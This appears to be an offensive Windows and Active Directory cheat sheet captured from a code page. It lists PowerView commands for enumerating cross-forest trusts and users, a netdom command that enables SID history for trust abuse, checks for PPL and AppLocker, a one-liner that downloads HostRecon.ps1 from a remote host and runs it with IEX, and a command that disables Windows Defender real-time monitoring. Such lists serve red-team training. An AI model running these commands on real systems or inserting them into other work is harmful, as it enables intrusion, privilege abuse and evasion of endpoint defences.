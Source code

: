 Get trusts to domains in other forest
```powershell
Get-DomainTrust -Domain d.com

Get-DomainTrustMapping
```

Get users in other forest
```powershell
Get-DomainUser -Domain d.com
```

Get group members of a group in another forest
```powershell
Get-DomainForeignGroupMember -Domain d.com
```

Enable SID history (on target forest DC)
```
netdom trust d2.com /d:d1.com /enablesidhistory:yes
```
<hr>
# Enumeration
<hr>
Enumerate Windows with HostRecon
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/HostRecon.ps1') | IEX

Invoke-HostRecon
```

Check if PPL Protection is enabled
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

Check if AppLocker is enabled
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

Check PowerShell execution context
```powershell
$ExecutionContext.SessionState.LanguageMode
```

Get loaded DLL's
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

<hr>
# Windows Defender
<hr>
Disable defender realtime montoring
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
